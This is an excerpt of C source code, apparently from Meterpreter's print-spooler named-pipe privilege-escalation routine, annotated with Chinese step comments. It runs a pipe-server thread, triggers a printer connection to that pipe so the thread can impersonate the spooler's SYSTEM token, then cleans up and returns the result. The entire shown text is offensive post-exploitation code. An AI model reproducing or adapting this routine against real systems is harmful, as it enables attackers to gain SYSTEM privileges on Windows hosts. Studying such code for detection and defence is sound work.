 ```plain
        pThread = met_api->thread.create(elevate_namedpipe_thread, &cPipeName1, hSem, &PostImpersonation);
        if (!pThread) {
            BREAK_WITH_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler. met_api->thread.create failed",
                ERROR_INVALID_HANDLE);
        }

        if (!met_api->thread.run(pThread)) {
            BREAK_WITH_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler. met_api->thread.run failed",
                ERROR_ACCESS_DENIED);
        }

        // 7. 等待线程创建命名管道，如果超时则输出错误信息并返回
        if (hSem) {
            if (WaitForSingleObject(hSem, 500) != WAIT_OBJECT_0) {
                BREAK_WITH_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler. WaitForSingleObject failed",
                    ERROR_ACCESS_DENIED);
            }
        }
        else {
            Sleep(500);
        }
        // 8. 触发打印机连接
        trigger_printer_connection(cPipeName2);

        // 9. 通知线程终止
        met_api->thread.sigterm(pThread);

        // 10. 等待线程终止
        met_api->thread.join(pThread);

        // 11. 获取线程的退出代码
        dprintf("[ELEVATE] dwResult before exit code: %u", dwResult);
        if (!GetExitCodeThread(pThread->handle, &dwResult)) {
            BREAK_WITH_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler. GetExitCodeThread failed",
                ERROR_INVALID_HANDLE);
        }
        dprintf("[ELEVATE] dwResult after exit code: %u");
    } while (0);

    // 12. 清理资源
    if (pThread) {
        met_api->thread.destroy(pThread);
    }
    if (hSem) {
        CloseHandle(hSem);
    }
    // 13. 返回结果代码
    return dwResult;
}
```

